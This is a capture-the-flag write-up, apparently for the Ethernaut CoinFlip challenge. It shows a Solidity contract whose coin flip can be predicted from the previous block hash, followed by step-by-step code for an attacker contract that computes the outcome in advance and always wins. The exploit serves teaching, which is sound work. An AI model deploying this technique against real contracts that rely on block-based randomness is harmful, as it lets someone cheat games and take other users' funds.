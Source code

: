## CoinFlip Challenge

### The Goal of this challenge is to find the correct answer within the two flips 10 times consecutively!

Smart Contract: 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }

}
```
#### Problem Approach: 

- We want to hack this smart contract by sending a malicious transaction to it by creating another smart contract. So let's go ahead and do that.

- In the first part i will pick up the FACTOR state variable from the contract itself so that the functions execute correctly.

- Next I will create a constructor and pass in the contract address in the targetted contract variable so that we can call functions on the contract we want to hack.

- 

```
contract HackCoinFlip {

uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
CoinFlip private immutable target;

constructor(address _target) {
    target = CoinFlip(_target);
}

}
```

- Now Let's copy the code that chooses the side and the guess and return the guess in a new function in our Hack Contract.

```
function guess() private view returns(bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    return side;
}
```

- This will either return true or false but the way we are going to hack the contract is us running a require statement that will only be executed when the returned side is true.

- So let's write a new function called flip and call the flip function from the contract we want to hack and implement the hacking.

```
function flip() external {
    bool _guess = guess();
    require(target.flip(_guess) == true, "RETURNED WRONG GUESS!!!");
}
```
And there you have it! If you were to call this function it would always return the correct guess.